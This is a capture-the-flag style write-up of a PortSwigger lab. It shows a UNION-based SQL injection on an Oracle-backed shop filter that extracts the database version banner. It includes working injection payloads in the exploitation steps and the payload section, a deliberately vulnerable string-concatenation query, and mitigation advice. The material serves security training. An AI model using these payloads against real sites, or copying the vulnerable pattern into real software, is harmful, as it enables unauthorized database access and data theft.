

# SQL injection attack, querying the database type and version on Oracle

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle` |

---

## Lab Objective

Display the Oracle database version string using a UNION-based SQL injection in the product category filter. The lab expects the database to return the Oracle 11g banner:

```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production,
PL/SQL Release 11.2.0.2.0 - Production,
CORE 11.2.0.2.0 - Production,
TNS for Linux: Version 11.2.0.2.0 - Production,
NLSRTL Version 11.2.0.2.0 - Production
```

---

## Skills Learned

- Identifying a SQL injection point in a GET parameter
- Determining the number of columns with `ORDER BY` / `UNION SELECT NULL`
- Using a `UNION SELECT` attack to extract data from the database
- Handling Oracle's requirement that every `SELECT` must have a `FROM` clause (using the `dual` table)
- Querying the `v$version` table to retrieve the Oracle version banner

---

## Recon

The lab is a shop website with a category filter. Clicking any category (e.g., "Toys & Games") changes the URL:

```
GET /filter?category=Toys+%26+Games
```

The `category` parameter feeds directly into a SQL query and is the injection point. Note that `&` must be URL-encoded as `%26` (it would otherwise be treated as a parameter separator).

---

## Finding the Vulnerability

I confirmed the injection point by appending a single quote and observing an error, then proceeded to enumerate the query structure using a UNION attack.

Because Oracle requires every `SELECT` statement to include a `FROM` clause, any UNION-based payload must add `FROM dual` to be valid. This is the key difference from other databases.

---

## Exploitation Steps

1. Opened the lab in Burp's browser and clicked a product category.
2. Intercepted the request in Burp Proxy and sent it to Repeater.
3. Determined the number of columns returned by the query by incrementing `NULL` columns:
   ```
   '+UNION+SELECT+NULL+FROM+dual--
   '+UNION+SELECT+NULL,NULL+FROM+dual--
   ```
4. Confirmed the query returns **two columns, both of which accept text data**, using:
   ```
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
5. Replaced the text filler with the Oracle `v$version` table to read the database version:
   ```
   '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
   ```
6. The response displayed the Oracle version string (`BANNER` column).
7. Lab solved.

---

## Payload

```http
GET /filter?category=Toys+%26+Games'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```



---

## Why It Works

The original SQL query the server runs looks like:

```sql
SELECT * FROM products WHERE category = 'Toys %26 Games'
```

The `+UNION SELECT` payload transforms it into:

```sql
SELECT * FROM products WHERE category = '' UNION SELECT BANNER, NULL FROM v$version--'
```

Breaking it down:

- `'` — closes the existing string literal (`''`)
- `UNION` — combines the original result set with the attacker-controlled query
- `SELECT BANNER, NULL` — retrieves the `BANNER` column (the version string) from Oracle's `v$version` system table; `NULL` fills the second column so the column counts match
- `FROM v$version` — Oracle requires a source table; `v$version` holds Oracle version information
- `--` — comments out the trailing quote

The `--` comment is essential: it nullifies the original closing `'` so the injected query is valid SQL.

---

## Key Oracle Differences

- **Mandatory `FROM`** — every Oracle `SELECT` must reference a table. For simple string probes use the built-in table `dual`:
  `UNION SELECT 'abc','def' FROM dual`
- **Version table** — Oracle exposes its version via the `v$version` view, where the `BANNER` column holds the version string.
- **Comment syntax** — Oracle supports `--` for line comments.

---

## Root Cause

The developer concatenated the `category` parameter directly into the SQL query without parameterization or validation, allowing the `UNION` keyword and arbitrary SQL to be injected.

```python
# Vulnerable pattern
query = "SELECT * FROM products WHERE category = '" + category + "'"
```

No input validation, no escaping, no parameterization.

---

## Impact

An attacker can use `UNION`-based injection to:

- Enumerate the database schema, tables, and columns
- Exfiltrate sensitive data (credentials, PII, business data)
- Identify the database type and version to tailor further attacks

Knowing the exact database version is a stepping stone: it reveals which known CVEs, feature gaps, and syntax quirks apply.

---

## Mitigation

- **Use parameterized queries (prepared statements)** — keep user input separate from SQL syntax:
  ```python
  cursor.execute("SELECT * FROM products WHERE category = ?", (category,))
  ```
- **Validate/whitelist** the `category` parameter against a fixed set of allowed values
- **Apply least privilege** — the database user should only read what the app needs
- **Restrict error verbosity** — avoid leaking SQL errors to the client

---

## Key Takeaways

- UNION injection requires the injected `SELECT` to return the same number and compatible types of columns as the original query
- On Oracle every `SELECT` statement needs a `FROM` clause — `FROM dual` is the standard placeholder
- Use `v$version` on Oracle to read the database version via the `BANNER` column
- The `--` comment reliably terminates the rest of the original query
- Always enumerate column count and types BEFORE constructing the final UNION payload

---

## Related Labs

- [08 - SQL injection attack, listing the database contents on Oracle](../08%20-%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/README.md) — same Oracle backend; this fingerprints `v$version`, the other dumps the schema
- [05 - SQL injection attack, querying the database type and version on MySQL and Microsoft](../05%20-%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/README.md) — the same version-fingerprinting goal against non-Oracle backends

---

## References

- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger: SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PortSwigger: Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)